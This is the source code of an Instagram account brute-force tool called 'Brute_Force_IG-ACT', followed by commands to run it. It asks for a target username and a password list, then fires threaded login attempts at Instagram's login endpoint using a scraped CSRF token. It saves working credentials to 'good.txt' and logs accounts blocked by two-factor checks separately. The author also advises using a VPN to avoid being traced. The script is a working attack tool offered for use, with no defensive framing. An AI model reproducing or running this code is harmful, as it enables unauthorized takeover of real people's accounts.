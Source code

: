 # Brute_Force_IG-ACT
from __future__ import absolute_import from __future__ import print_function import requests, sys, threading, time, os, random from random import randint from six.moves import input CheckVersion = str(sys.version) import re from datetime import datetime    print('''                                ....                                                                              %                                                                             ^                                                                   L                                                                            "F3  $r                                                                     $$$$.e$"  .                                                                  "$$$$$"   "                                            (Xzero by 4)           $$$$c  /                                                .                   $$$$$$$P                                                ."c                      $$$                                                .$c3b                  ..J$$$$$e                                             4$$$$             .$$$$$$$$$$$$$$c                                            $$$$b           .$$$$$$$$$$$$$$$$r                                              $$$.        .$$$$$$$$$$$$$$$$$$                                               $$$c      .$$$$$$$  "$$$$$$$$$r                                   Author   : XzeroXvan07  Management depends on vpn software. Please use it before running the tool                        """"""""""""""""""""""""""""""""""""""""""  ''')   class InstaBrute(object):     def __init__(self):          try:             user = input('username : ')             Combo = input('passList : ')             print('\n----------------------------')                    except:             print(' The tool was arrested exit ')             sys.exit()           with open(Combo, 'r') as x:             Combolist = x.read().splitlines()         thread = []         self.Coutprox = 0         for combo in Combolist:             password = combo.split(':')[0]             t = threading.Thread(target=self.New_Br, args=(user, password))             t.start()             thread.append(t)             time.sleep(0.9)         for j in thread:             j.join()      def cls(self):         linux = 'clear'         windows = 'cls'         os.system([linux, windows][os.name == 'nt'])      def New_Br(self,user,pwd):         link = 'https://www.instagram.com/accounts/login/'         login_url = 'https://www.instagram.com/accounts/login/ajax/'          time = int(datetime.now().timestamp())          payload = {             'username': user,             'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',             'queryParams': {},             'optIntoOneTap': 'false'         }          with requests.Session() as s:             r = s.get(link)             csrf = re.findall(r"csrf_token\":\"(.*?)\"", r.text)[0]             r = s.post(login_url, data=payload, headers={                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",                 "X-Requested-With": "XMLHttpRequest",                 "Referer": "https://www.instagram.com/accounts/login/",                 "x-csrftoken": csrf             })             print(f'{user}:{pwd}\n----------------------------')                  if 'authenticated": true' in r.text:                 print(('' + user + ':' + pwd + ' --> Good hack '))                 with open('good.txt', 'a') as x:                     x.write(user + ':' + pwd + '\n')             elif 'two_factor_required' in r.text:                    print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))                 with open('results_NeedVerfiy.txt', 'a') as x:                     x.write(user + ':' + pwd + '\n')     InstaBrute()

cd Brute_Force_IG-ACT
python2 Brute_Force_IG-ACT
